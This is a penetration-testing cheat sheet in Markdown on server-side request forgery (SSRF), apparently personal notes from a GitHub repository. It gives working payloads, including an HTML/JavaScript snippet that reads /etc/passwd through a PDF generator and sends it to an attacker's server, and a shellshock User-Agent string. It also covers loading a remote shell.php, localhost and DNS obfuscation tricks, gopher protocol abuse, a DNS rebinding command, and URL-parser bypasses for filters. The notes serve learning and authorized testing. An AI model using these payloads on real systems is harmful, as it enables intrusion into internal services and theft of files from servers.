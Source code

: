 # Content
- [What can SSRF vulnerabilities can lead to](#what-can-ssrf-vulnerabilities-can-lead-to)
- [Where to find SSRF](#where-to-find-ssrf-)
- [Testing if app vulnerable to SSRF](#testing-if-app-vulnerable-to-ssrf)
- [Blind SSRF](#blind-ssrf)
    - [blind SSRF via pdf generator](#blind-ssrf-via-pdf-generator)
    - [blind SSRF via User-Agent header](#blind-ssrf-via-user-agent-header-shellshock)
- [Bypass](#bypass)
    - [SSRF with blacklist-based input filters](#ssrf-with-blacklist-based-input-filters)
    - [SSRF with whitelist-based input filters](#ssrf-with-whitelist-based-input-filters)



## What can SSRF vulnerabilities can lead to:
- Interacting with known internal systems
- Discovering internal services via port scans
- Disclosing local/sensitive data
- Including files in the target application
- Leaking NetNTLM hashes using UNC Paths (Windows)
- Achieving remote code execution


## Where to find SSRF :
- Parts of HTTP requests, including (URLs,paramters,headrs,...)
     - Referer header
     - User-Agent header
```
Note: Always keep in mind that web application fuzzing should be part of any penetration testing or bug bounty hunting activity.
That being said, fuzzing should not be limited to user input fields only.
Extend fuzzing to parts of the HTTP request as well, such as the User-Agent.
```
- File imports such as HTML, PDFs, images, etc.
- Remote server connections to fetch data
- API specification imports
- Dashboards including ping and similar functionalities to check server statuses


## Testing if app vulnerable to SSRF
The most common test is local and remote file inclusion

- try diffrient protocols (http,file,ftp,..)
- fuzz ports
- do not forget to url encode if going through more than one app (ex:trible url encode)
- DNS loopkup for server you own
- Load External files (try RCE)
```
GET https://example.com/page?page=https://malicioussite.com/shell.php
```
- Access a Restricted Page
```
GET https://example.com/page?page=http://localhost/admin
```
- Attack other back-end systems
```
http://192.168.0.68/admin
```




## Blind SSRF
- We can detect blind SSRF vulnerabilities via out-of-band techniques
- Blind SSRF vulnerabilities could exist in PDF Document generators and HTTP Headers, among other locations.

### blind SSRF via pdf generator 
```
<html>
    <body>
        <b>Exfiltration via Blind SSRF</b>
        <script>
        var readfile = new XMLHttpRequest(); // Read the local file
        var exfil = new XMLHttpRequest(); // Send the file to our server
        readfile.open("GET","file:///etc/passwd", true); 
        readfile.send();
        readfile.onload = function() {
            if (readfile.readyState === 4) {
                var url = 'http://<SERVICE IP>:<PORT>/?data='+btoa(this.response);
                exfil.open("GET", url, true);
                exfil.send();
            }
        }
        readfile.onerror = function(){document.write('<a>Oops!</a>');}
        </script>
     </body>
</html>


```
### blind SSRF via User-Agent header (shellshock)
```
() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN
```

## Bypass

### SSRF with blacklist-based input filters

#### localhost obfuscation
```bash
Localhost Address Block: 127.0.0.0 - 127.255.255.255
Shortened IP Adress: 127.1
Prolonged IP Address: 127.000000000000000.1
All Zeroes: 0.0.0.0
Shortened All Zeroes: 0
Decimal Representation: 2130706433
Octal Representation: 0177.0000.0000.0001
Hex Representation: 0x7f000001
IPv6 loopback address: 0:0:0:0:0:0:0:1 (also ::1)
IPv4-mapped IPv6 loopback address: ::ffff:127.0.0.1


```
#### DNS resolution
```
1) Registering your own domain name that resolves to 127.0.0.1 OR any internal ip.
2) Nip.io allows simple wildcard DNS for any IP address (127.0.0.1.nip.io = 127.0.0.1 )
    - 127.0.0.1.nip.io  
    - 0x7f000001.nip.io (hexadecimal IP notation)
    - Something.google.com.127.0.0.1.nip.io
3) localtest.me == 127.0.0.1
4) lvh.me == 127.0.0.1
5) Registering your own domain name that resolves to 127.0.0.1 OR any internal ip.
```


#### Obfuscating blocked strings using URL encoding or case variation.
#### using different different protocols.
```
file:// (file read)
netdoc:// (file read)
dict://
gopher://
jar://
ldap://
ftp://
data:text/plain;base64,L2V0Yy9wYXNzd2Q=  (if the backend use the input to construct another url we can use data:// to include /etc/passwd directly)

You might be able to get file read.

Or send multi-line requests to gain additional impact

(Ex: gopher + redis = likely RCE)
```
#### HTTP redirects
```php
<?php header('Location: http://127.0.0.1/'); ?>
```
then host it
```bash
php -S 0.0.0.0:80
```

#### DNS Rebinding
- [https://lock.cmpxchg8b.com/rebinder.html](https://lock.cmpxchg8b.com/rebinder.html)
![Screenshot_11](https://github.com/kiro6/penetration-testing-notes/assets/57776872/ff384973-5cfe-4690-8113-853869acea7a)

- running our domain on our own DNS server We can then conduct the DNS rebinding attack using a simple Python script such as [DNSrebinder](https://github.com/mogwailabs/DNSrebinder) or [FakeDns](https://github.com/Crypt0s/FakeDns)

```python
sudo python3 dnsrebinder.py --domain attacker.com --rebind 127.0.0.1 --ip 1.1.1.1 --counter 1 --tcp --udp
```

- Frequently, companies establish their own personalized internal DNS servers, alongside various administrative utilities like `Webmin`, `Pihole`, `PRTG Network Monitor`, and` Manageengine`. If these assets are compromised, we can exploit them to redirect DNS traffic towards our rogue DNS server.


change the dns server to our own
![Screenshot_12](https://github.com/kiro6/penetration-testing-notes/assets/57776872/5dea2a30-066e-40ab-8eed-0ca6abc641f5)

then run dnsrebinder
```
sudo python3 dnsrebinder.py --domain attacker.com --rebind 127.0.0.1 --ip 1.1.1.1 --counter 1 --tcp --udp

Starting nameserver...
UDP server loop running in thread: Thread-1
TCP server loop running in thread: Thread-2
```

### SSRF with whitelist-based input filters

- You can embed credentials in a URL before the hostname, using the @ character. For example:
```bash
https://expected-host:fakepassword@evil-host
```
- You can use the # character to indicate a URL fragment. For example:
```bash
https://evil-host#expected-host
```
- You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:
```bash
https://expected-host.evil-host
```
- You can URL-encode characters to confuse the URL-parsing code This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request.
```text
Note
that you can also try double-encoding characters
some servers recursively URL-decode the input they receive, which can lead to further discrepancies.
```
- You can use combinations of these techniques together.

